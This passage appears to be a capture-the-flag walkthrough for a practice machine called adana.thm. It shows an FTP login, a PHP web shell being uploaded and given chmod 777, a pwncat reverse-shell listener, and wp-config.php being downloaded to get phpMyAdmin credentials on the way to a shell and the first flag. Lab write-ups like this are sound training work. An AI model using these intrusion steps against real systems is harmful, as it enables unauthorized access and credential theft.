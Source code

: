 once I Logged in It's site file tree, well try to upload the shell

```ruby
$ ftp 10.10.224.181
Connected to 10.10.224.181.
220 (vsFTPd 3.0.3)
Name (10.10.224.181:black): hakanftp
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.


ftp> put shell.php

local: shell.php remote: shell.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
2587 bytes sent in 0.00 secs (32.8954 MB/s)

ftp> chmod 777 shell.php


200 SITE CHMOD command ok.


```


Listen with pwncat

```php 
$ pwncat-cs -lp 4441
[01:11:01] Welcome to pwncat 🐈!        
```

Let's access the `/shell.php` the 

```post
Not Found

The requested URL was not found on this server.
Apache/2.4.29 (Ubuntu) Server at adana.thm Port 80
```

so I download the `wp-config.php` by ` ftp> get wp-config.php` 
And I dot the password for *phpmyadmin*

once I logged in there are two folders `phpmyadmin` and `phpmyadmin1`

in the `phpmyadmin1` I got the `sub******.adana.thm` and I add it into `/etc/hosts`

this domain help to get the reverse shell .

First flag found in /var/www/html/
